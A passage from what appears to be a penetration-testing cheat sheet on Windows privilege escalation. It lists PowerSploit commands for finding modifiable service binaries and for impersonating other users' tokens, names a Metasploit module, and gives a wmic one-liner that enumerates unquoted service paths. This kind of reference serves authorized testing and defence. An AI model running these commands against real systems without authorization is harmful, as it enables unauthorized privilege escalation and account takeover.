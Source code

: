 ## Service binary in a location writable to current user

Replace the binary to gain code execution.

```
Get-ModifiableServiceFile -Verbose
```

## Service can be modified by current user

```
Get-ModifiableService -Verbose
```

# DLL Hijacking
# Token Impersonation

PowerSploit / Incognito

List all tokens
```
Invoke-TokenManipulation -ShowAll
```

List all unique and usable tokens
```
Invoke-TokenManipulation -Enumerate
```

Start new process with token of a user
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

Start new process with token of another process
```
Invoke-TokenManipulation -CreateProcess "C:\Windown\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

# Technniques

## Service Unquoted Path

- `exploit/windows/local/trusted_service_path`

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
```
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe

Leads to running:
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
